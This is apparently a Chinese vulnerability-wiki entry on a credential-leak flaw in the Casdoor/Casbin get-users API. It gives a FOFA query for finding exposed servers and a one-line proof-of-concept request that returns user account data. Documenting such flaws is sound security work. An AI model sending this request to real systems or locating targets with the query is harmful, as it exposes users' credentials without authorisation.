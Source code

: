 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>Casbin</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Casdoor"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646232783496-55549f0b-2c00-4f19-93bd-764b2df2d7e1.png)

验证POC

```javascript
/api/get-users?p=123&pageSize=123
```

![img](../../../.vuepress/public/img/1646232815871-7695e1f9-9425-44a5-bece-8a511e757461.png)

